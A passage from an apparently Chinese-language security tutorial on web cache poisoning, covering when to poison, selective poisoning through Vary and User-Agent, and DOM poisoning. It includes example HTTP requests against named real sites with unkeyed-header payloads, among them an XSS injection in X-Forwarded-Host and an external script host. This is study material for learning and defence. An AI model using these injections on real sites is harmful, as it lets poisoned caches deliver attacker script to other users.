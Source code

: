 成功触发了POC。但是这只是一个self xss，是没有什么危害性。但是如果存在缓存投毒，就可以将XSS存储到缓存中，之后访问的用户就会触发XSS。从而攻击到其他用户。



### 2.2 投毒时机

对于上面的例子，如果我们要对主页进行真的投毒攻击，我们可能会选择使用Burp Intruder模块进行持续性投毒，因为我们不知道缓存在什么时候过期，并且要在它刚好过期的时候投毒成功。如果持续发送大量数据包，可能会引起注意，这会让投毒攻击变得困难，当然，可以通过对缓存系统进行逆向、查看文档和监控等手段来预测到期时间，但是这听起来就是一项艰苦的任务，有时候往往比这简单。

看下面的例子

```http
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```

unity3d.com的响应头的Age和max-age分别提供了当前响应时间和过期时间，这为我们投毒时机做了明确的指引。



### 2.3 选择性投毒

如下例子中，Vary响应头告诉我们User-Agent头可能是缓存键的一部分，手工测试也确实如此，这种情况我们就可以定制User-Agent来选择性攻击。

```http
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"><iframe onload=alert(1)>

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
</iframe> 
```



### 2.4 DOM投毒

如下的案例中，非缓存键是`X-Forwarded-Host: canary`，但是此处对XSS做了防御，不能直接利用XSS进行攻击。

```http
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```
